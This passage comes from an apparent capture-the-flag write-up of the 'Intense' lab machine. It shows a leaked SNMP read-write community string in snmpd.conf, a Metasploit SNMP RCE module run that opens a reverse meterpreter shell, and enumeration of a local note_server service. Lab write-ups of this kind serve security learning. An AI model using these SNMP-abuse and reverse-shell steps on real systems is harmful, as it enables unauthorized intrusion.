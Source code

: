 If we read `/etc/passwd`, we see there's a user called `user`.

```
>>> /home/user/user.txt
6b5...
```

Now to find a way to get foothold.

After some searching (and some `nmap`) we find SNMP is open, so let's see what we can do with that.

```
>>> /etc/snmp/snmpd.conf
[...]
 rocommunity public  default    -V systemonly
 rwcommunity SuP3RPrivCom90
[...]
```

There's a `rwcommunity` called `SuP3RPrivCom90`. RW Communities can be [leveraged for RCE](https://mogwailabs.de/en/blog/2019/10/abusing-linux-snmp-for-rce/). To do this, I'm going to use the metasploit `linux/snmp/net_snmpd_rw_access` module.

```
msf6 exploit(linux/snmp/net_snmpd_rw_access) > set COMMUNITY SuP3RPrivCom90        
COMMUNITY => SuP3RPrivCom90                                                                                                                                           
msf6 exploit(linux/snmp/net_snmpd_rw_access) > set RHOSTS intense.htb                                                                                                 
RHOSTS => intense.htb                                                                                                                                                 
msf6 exploit(linux/snmp/net_snmpd_rw_access) > set LHOST tun0                      
LHOST => tun0                                                                      
msf6 exploit(linux/snmp/net_snmpd_rw_access) > run
```

And we get a meterpreter shell! Our user is `Debian-snmp`.

## Finding Root

If we go into the home directory of `user`, we see a `note_server` and a `note_server.c`. Running `netstat -tunlp` tells us there is something listening on port 5001.

```
netstat -tunlp
[...]
tcp        0      0 127.0.0.1:5001          0.0.0.0:*               LISTEN      -
[...]
```

We can dump the files using meterpreter.

```
meterpreter > download note_server
meterpreter > download note_server.c
```

Let's run the file and check if it's this that runs on port `5001`:
